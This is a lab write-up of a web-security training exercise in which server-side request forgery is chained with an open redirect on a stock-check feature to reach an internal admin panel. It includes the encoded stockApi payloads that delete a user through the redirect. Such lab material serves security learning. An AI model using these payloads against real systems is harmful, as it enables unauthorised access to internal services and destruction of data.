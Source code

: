 # SSRF with filter bypass via open redirection vulnerability

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.

## The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

---

### step 1

intercept stock check feature which fetches data from an internal system
send to repeater

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%
send request response => 200 ok

add path=http://192.168.0.68/admin
stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1&path=http://192.168.0.68/admin
send request response => 200 ok
but no admin panel display

### step2

there is next product in stock check feature page click and intercept
GET /product/nextProduct?currentProductId=2&path=/product?productId=3

![screenshot](./images/lab4_next_product.png)

click on _follow redirection_

![screenshot](./images/lab4_follow_redirection.png)

enter https://www.google.com in path senction

![screenshot](./images/lab4_test_ssrf_vulnerability.png)

click on folllow redirection

![screenshot](./images/lab4_render_follow_redirection.png)

### step3

intercept stock check feature which fetches data from an internal system
add /product/nextProduct?currentProductId=2&path=/product?productId=3
select url and press ctrl + u url encoder
stockApi=/product/nextProduct%3fcurrentProductId%3d2%26path%3d/product%3fproductId%3d3
send request response => 200 ok

stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
url encoded
stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin

![screenshot](./images/lab4_admin_panel_carlos_wiener.png)

add /http://192.168.0.12:8080/admin/delete?username=carlos

stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admindelete?username=carlos
url encoded
stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete%3fusername%3dcarlos

![screenshot](./images/lab4_carlos_deleted.png)
